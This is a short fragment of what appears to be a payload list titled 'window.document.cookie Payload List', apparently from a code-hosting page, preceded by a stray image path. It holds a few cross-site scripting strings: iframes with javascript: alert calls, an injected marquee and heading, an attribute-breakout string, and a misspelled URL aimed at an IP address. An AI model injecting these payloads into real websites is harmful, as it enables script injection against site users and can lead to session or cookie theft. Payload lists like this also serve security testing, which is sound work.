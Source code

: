#### window.document.cookie Payload List :

```











<iframe src="javascript:alert('XSS by \nxss');"></iframe><marquee><h1>XSS by xss</h1></marquee>
"><h1><IFRAME SRC="javascript:alert('XSS');"></IFRAME>">123</h1>
httttp://66.102.7.147/">XSS













